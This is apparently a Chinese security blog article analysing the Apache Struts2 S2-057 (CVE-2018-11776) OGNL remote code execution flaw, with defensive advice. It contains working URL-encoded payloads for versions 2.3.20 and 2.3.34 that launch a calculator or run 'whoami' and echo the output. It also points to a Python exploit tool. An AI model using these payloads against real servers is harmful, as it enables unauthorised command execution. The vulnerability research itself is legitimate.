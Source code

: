 > 原文链接: https://www.anquanke.com//post/id/157823 


# Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）


                                阅读量   
                                **395905**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">9</a>
                                </b>
                                                                                    



[![](https://p5.ssl.qhimg.com/t017a8394d2898cc554.jpg)](https://p5.ssl.qhimg.com/t017a8394d2898cc554.jpg)

**作者：Ivan**



## 0x01 前言

2018年8月22日，Apache Strust2发布最新安全公告，Apache Struts2存在远程代码执行的高危漏洞（S2-057/CVE-2018-11776），该漏洞由Semmle Security Research team的安全研究员Man YueMo发现。该漏洞是由于在Struts2开发框架中使用namespace功能定义XML配置时，namespace值未被设置且在上层动作配置（Action Configuration）中未设置或用通配符namespace，可能导致远程代码执行。同理，url标签未设置value和action值且上层动作未设置或用通配符namespace时也可能导致远程代码执行，经过笔者自建环境成功复现漏洞且可以执行命令回显，文末有你们想要的 !



## 0x02 漏洞利用

笔者搭的环境分别是Strust2 2.3.20 版本和 Strust2 2.3.34版本，漏洞利用大致分为三种方式：数值计算、弹出计算器、 命令回显。

### 2.1、数值计算

数值计算相对最简单，在URL上指定 %`{`100+200`}` 就可以发生跳转，得到计算的结果

[![](https://p3.ssl.qhimg.com/t01429ddafc6419780b.png)](https://p3.ssl.qhimg.com/t01429ddafc6419780b.png)

### 2.2、弹出计算器

2.3.20 版本的POC如下：

```
/%24%7B%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C@java.lang.Runtime@getRuntime%28%29.exec%28%27calc.exe%27%29%7D/index.action
```

[![](https://p2.ssl.qhimg.com/t019ebaaf5cecb1936a.png)](https://p2.ssl.qhimg.com/t019ebaaf5cecb1936a.png)

2.3.34 版本参考的POC如下：

```
/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29%29%7D/index.action
```

[![](https://p1.ssl.qhimg.com/t015aa9425f79536214.png)](https://p1.ssl.qhimg.com/t015aa9425f79536214.png)

### 2.3、命令回显

两个版本都是利用com.opensymphony.xwork2.dispatcher.HttpServletResponse对象去打印命令执行后的回显数据

2.3.20 版本的POC如下：

```
/%24%7B%28%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action
```

2.3.34 版本的POC如下：

```
/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action
```

攻击后效果如下图

[![](https://p3.ssl.qhimg.com/t016047753a088cc728.png)](https://p3.ssl.qhimg.com/t016047753a088cc728.png)



## 0X03 漏洞分析

在分析漏洞之前，需要配置struts.xml文件，这个文件就是struts2的核心配置文件，大多数的时候增减配置都需要操控这里；

[![](https://p0.ssl.qhimg.com/t01c06e363e38a2f368.png)](https://p0.ssl.qhimg.com/t01c06e363e38a2f368.png)

总共两处需要注意，第一处一定要配置struts.mapper.alwaysSelectFullNamespace  = true ，否则不能触发漏洞，这个配置的目的是设定是否一直在最后一个斜线之前的任何位置选定NameSpace；第二处result标签返回的类型选择 “ redirectAction 或 chain“ , 只有这两个配置选项的值是可以将action转发或者重定向；关于type具体可以参考下图

[![](https://p0.ssl.qhimg.com/t01c8ce95219661b580.png)](https://p0.ssl.qhimg.com/t01c8ce95219661b580.png)

说完了配置，开始动态分析。漏洞位于 struts2-core.jar!/org/apache/struts2/dispatcher/ServletActionRedirectResult.class

[![](https://p3.ssl.qhimg.com/t0111fdcf971a121bbc.png)](https://p3.ssl.qhimg.com/t0111fdcf971a121bbc.png)

This.namespace这个成员的值来自于getNamespace()方法，再通过getUriFromActionMapping()返回URI字符串；

[![](https://p2.ssl.qhimg.com/t01c19875ef9b0d5ca2.png)](https://p2.ssl.qhimg.com/t01c19875ef9b0d5ca2.png)

通过getUriFromActionMapping获取的值赋给了tmpLocation变量，接着表达式进入setLocation方法

[![](https://p2.ssl.qhimg.com/t01e7ac96fbb313e1dd.png)](https://p2.ssl.qhimg.com/t01e7ac96fbb313e1dd.png)

再通过super.execute方法调用了ServletActionResult ， 而在execute方法体内跟进了conditionalParse方法，在这个方法内调用了ONGL执行的关键方法translateVariables。

[![](https://p2.ssl.qhimg.com/t0160c909065c16868b.png)](https://p2.ssl.qhimg.com/t0160c909065c16868b.png)

获得的param值传入到translateVariables()方法内，最终在OnglTextPaser里导致了OGNL表达式执行。

[![](https://p0.ssl.qhimg.com/t01df68f3b8c60cb771.png)](https://p0.ssl.qhimg.com/t01df68f3b8c60cb771.png)

[![](https://p3.ssl.qhimg.com/t019cc0d33304e68376.png)](https://p3.ssl.qhimg.com/t019cc0d33304e68376.png)

再弹出计算器后获得lastFinalLocation的值为当前执行后的句柄，这个值作为响应跳转的action地址 ，也就是在浏览器中弹出计算器后在地址栏中出现的URI

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015e44aaa97a103115.png)

到这里弹出计算器的分析到此为止，接下来看下基于命令执行回显结果的分析，基本上流程和上述一样，唯一不同之处lastFinalLocation返回的值是NULL，这也就引发出提交后没有做302的跳转，依旧是当前的action，并且返回的值是200

[![](https://p0.ssl.qhimg.com/t0156fd928d8ff3f99c.png)](https://p0.ssl.qhimg.com/t0156fd928d8ff3f99c.png)

[![](https://p2.ssl.qhimg.com/t0103a896c9c682dbbd.png)](https://p2.ssl.qhimg.com/t0103a896c9c682dbbd.png)

知道了原理后小同事用python实现了自动化利用工具，此工具用途仅供学习研究；

[![](https://p0.ssl.qhimg.com/t01a260e5fbf3d2a091.jpg)](https://p0.ssl.qhimg.com/t01a260e5fbf3d2a091.jpg)



## 0x04 防御措施
1. 将框架版本升级到官方最新版本；
1. 对于Web应用来说，尽量保证代码的安全性；
1. 对于IDS规则层面来说，数值计算和弹计算器返回的状态码都是302，并且Location跳转字段含有特征句柄字符串；如果是命令回显返回的200状态码，且有命令结果输出；


## 0x05 小结

文章中提及的python EXP下载地址： [https://github.com/Ivan1ee](https://github.com/Ivan1ee) ；



## 0x06 参考链接

[https://cwiki.apache.org/confluence/display/WW/S2-057](https://cwiki.apache.org/confluence/display/WW/S2-057)

[https://lgtm.com/blog/apache_struts_CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[https://blog.csdn.net/madison__/article/details/55671426](https://blog.csdn.net/madison__/article/details/55671426)
